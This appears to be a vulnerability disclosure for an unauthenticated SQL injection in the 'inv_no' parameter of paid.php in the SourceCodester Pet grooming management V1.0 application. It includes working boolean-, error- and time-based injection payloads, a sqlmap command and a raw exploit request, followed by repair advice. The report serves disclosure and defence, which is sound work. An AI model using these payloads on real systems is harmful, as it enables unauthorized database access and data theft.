 # Pet grooming management paid.php sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- mel0dy

## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'paid.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "inv_no" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "paid.php" file. This vulnerability stems from insufficient user input validation of the 'inv_no' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- boolean-based blind
- time-based blind

## Vulnerability location:

- 'inv_no' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: inv_no=1'+(SELECT 0x49446859 WHERE 6082=6082 AND 1300=1300)+'&insta_amt=100&due_total=50&ptype=test
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: inv_no=1'+(SELECT 0x65745972 WHERE 2912=2912 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(9337=9337,1))),0x71786b7671),9337))+'&insta_amt=100&due_total=50&ptype=test
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: inv_no=1'+(SELECT 0x52495144 WHERE 2362=2362 AND (SELECT 7578 FROM (SELECT(SLEEP(5)))OMbl))+'&insta_amt=100&due_total=50&ptype=test
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250902151831232](assets/image-20250902151831232.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/operation/paid.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

inv_no=1*&insta_amt=100&due_total=50&ptype=test
```

# Attack results

![image-20250902151901605](assets/image-20250902151901605.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.